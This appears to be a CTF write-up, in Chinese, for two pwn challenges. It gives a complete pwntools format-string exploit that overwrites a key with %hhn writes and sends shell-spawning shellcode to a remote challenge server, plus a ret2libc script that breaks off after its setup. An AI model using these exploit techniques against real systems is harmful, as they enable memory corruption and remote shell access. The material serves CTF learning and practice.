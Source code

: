 #### [Week 2] fmt2shellcode

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-18.png" alt="img" style="zoom:50%;" />

可以看到，我们需要满足key==26318864这个条件才能得到shell，但是有几个问题

1.这题开了pie（需要提前泄露栈内的地址

2.read一次读取0x20个数据（代表没法用fmtstr_payload一把梭，需要手搓

3.诸如%xxxc%y$n的长度超过了8，也就是说，需要将地址放在后面两个字长的偏移而不是一个字长

所以代码如下

```
from pwn import *
#io = process('./fmt20')
io = remote('47.97.58.52',42002)
context(os = 'linux',arch='amd64',log_level = 'debug')

io.sendafter(b'something:',b'%9$p')
io.recvuntil(b'Shanghai!\n')
a = int(io.recv(14).decode(),16)
addr = a - 0x1140 + 0x4068
print(hex(addr))
keys = 0x1919810 
#gdb.attach(io)
#pause()
payload = b'%16c%8$hhn'.ljust(16,b'\x00') + p64(addr)
io.sendlineafter(b'something:',payload)

payload = b'%152c%8$hhn'.ljust(16,b'\x00') + p64(addr+1)
io.sendlineafter(b'something:',payload)

payload = b'%145c%8$hhn'.ljust(16,b'\x00') + p64(addr+2)
io.sendlineafter(b'something:',payload)

payload = b'%1c%8$hhn'.ljust(16,b'\x00')  + p64(addr+3)
io.sendlineafter(b'something:',payload)
payload = b'%7$s'.ljust(8,b'\x00')
io.sendafter(b'something:',payload + p64(addr))
io.sendafter(b'something:',b'stop\x00')
payload1 = asm(shellcraft.amd64.sh())
io.send(payload1)
io.interactive()
```

#### [Week 2] ret2libc

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-19.png" alt="img" style="zoom: 67%;" />

先泄露puts.got,然后打ret2libc

```
from pwn import *
#io = process('./pwn11')
io = remote('47.97.58.52',42003)
context(os='linux',arch='amd64',log_level = 'debug')
elf = ELF('./pwn11')
libc = ELF('libc.so.6')

pop_rdi_ret = 0x4012c3
vuln = 0x401205
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
ret = 0x40101a

```